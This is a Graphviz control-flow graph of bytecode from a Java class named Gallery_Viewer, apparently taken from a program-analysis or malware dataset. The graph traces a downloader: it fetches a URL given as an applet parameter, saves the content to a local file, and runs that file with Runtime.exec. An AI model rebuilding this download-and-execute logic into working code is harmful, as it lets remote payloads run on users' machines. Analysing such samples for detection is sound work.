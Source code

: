 digraph "" {
    "r0 := @this: Gallery_Viewer"
    "new java.net.URL"
    "r0 := @this: Gallery_Viewer"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "load.r r0"
    "dup1.r"->"load.r r0";
    "push \"URL_CODE\""
    "load.r r0"->"push \"URL_CODE\"";
    "virtualinvoke <Gallery_Viewer: java.lang.String getParameter(java.lang.String)>"
    "push \"URL_CODE\""->"virtualinvoke <Gallery_Viewer: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Gallery_Viewer: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"dup1.r";
    "virtualinvoke <java.net.URLConnection: java.lang.String getContentType()>"
    "dup1.r"->"virtualinvoke <java.net.URLConnection: java.lang.String getContentType()>";
    "staticinvoke <Gallery_Viewer: java.lang.String Generate_Path(java.lang.String)>"
    "virtualinvoke <java.net.URLConnection: java.lang.String getContentType()>"->"staticinvoke <Gallery_Viewer: java.lang.String Generate_Path(java.lang.String)>";
    "store.r r0"
    "staticinvoke <Gallery_Viewer: java.lang.String Generate_Path(java.lang.String)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r4"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r4";
    "new java.io.FileOutputStream"
    "store.r r4"->"new java.io.FileOutputStream";
    "store.r $r10"
    "new java.io.FileOutputStream"->"store.r $r10";
    "load.r $r10"
    "store.r $r10"->"load.r $r10";
    "load.r $r10"->"load.r r0";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r0"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 500"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 500";
    "newarray"
    "push 500"->"newarray";
    "store.r r6"
    "newarray"->"store.r r6";
    "load.r r4"
    "store.r r6"->"load.r r4";
    "load.r r6"
    "load.r r4"->"load.r r6";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r6"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i i0"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i0";
    "goto load.i i0"
    "store.i i0"->"goto load.i i0";
    "load.i i0"
    "goto load.i i0"->"load.i i0";
    "ifgt load.r $r10"
    "load.i i0"->"ifgt load.r $r10";
    "ifgt load.r $r10"->"load.r r4";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r4"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r10";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r10"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "ifgt load.r $r10"->"load.r $r10";
    "load.r $r10"->"load.r r6";
    "push 0"
    "load.r r6"->"push 0";
    "push 0"->"load.i i0";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i i0"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"load.r r4";
    "load.r r4"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i i0";
}
